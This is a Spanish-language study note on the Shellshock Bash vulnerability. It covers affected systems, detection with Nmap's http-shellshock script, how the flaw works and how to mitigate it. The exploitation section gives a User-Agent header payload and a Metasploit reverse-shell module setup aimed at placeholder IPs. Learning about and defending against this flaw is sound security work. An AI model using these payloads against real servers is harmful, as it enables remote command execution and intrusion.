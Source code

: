 # Shellshock (CVE-2014-6271)

---

## 1. ¿Qué es Shellshock?

- Vulnerabilidad crítica en **Bash (Bourne Again Shell)**, un intérprete de comandos muy usado en sistemas Unix/Linux y macOS.
- Permite ejecución remota de comandos arbitrarios al procesar variables de entorno especialmente manipuladas.
- Descubierta en septiembre de 2014.
- Considerada una de las vulnerabilidades más graves en sistemas Unix/Linux.

---

## 2. Sistemas operativos afectados

- Sistemas Unix/Linux que usen versiones vulnerables de **Bash** (antes de las actualizaciones posteriores a septiembre 2014).
- macOS (versiones que usaban Bash vulnerable).
- Dispositivos embebidos y routers que usan Bash vulnerable.

---

## 3. Cómo identificar si un sistema es vulnerable

### Usar Nmap con script `http-shellshock`

```bash
nmap -p 80 --script http-shellshock --script-args uri=/cgi-bin/test <IP_objetivo>
```

- El script intenta detectar vulnerabilidad Shellshock en servidores web que usan CGI scripts.
- Reemplaza `/cgi-bin/test` por la ruta al CGI que se quiera probar.
- Si es vulnerable, Nmap reportará la detección.

---

## 4. ¿Cómo funciona la vulnerabilidad?

- Bash procesa variables de entorno que contienen funciones definidas con una sintaxis especial.
- Shellshock aprovecha una falla donde, al definir funciones en variables de entorno, Bash ejecuta comandos adicionales adjuntos.
- Esto permite a un atacante remoto ejecutar código arbitrario si puede enviar estas variables al intérprete Bash (ej. a través de CGI en servidores web).

---

## 5. ¿Cómo explotarlo?

### a) Exploit básico mediante CGI (Common Gateway Interface)

- En servidores web que usan CGI scripts escritos en Bash o que pasan variables a Bash, el atacante envía una petición HTTP con una variable de entorno maliciosa.

Ejemplo de payload HTTP:

```
User-Agent: () { :;}; /bin/bash -c "comando_malicioso"
```

### b) Uso de herramientas automatizadas

- Metasploit tiene módulos para explotar Shellshock:

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOST <IP_objetivo>
set TARGETURI /cgi-bin/test
set PAYLOAD cmd/unix/reverse
set LHOST <tu_IP>
set LPORT <tu_puerto>
run
```

---

## 6. Mitigación

- Actualizar Bash a versiones parcheadas inmediatamente.
- Deshabilitar o limitar el uso de CGI y scripts Bash en servidores.
- Filtrar y validar entradas en aplicaciones web.
- Monitorizar tráfico y logs para detectar intentos de explotación.


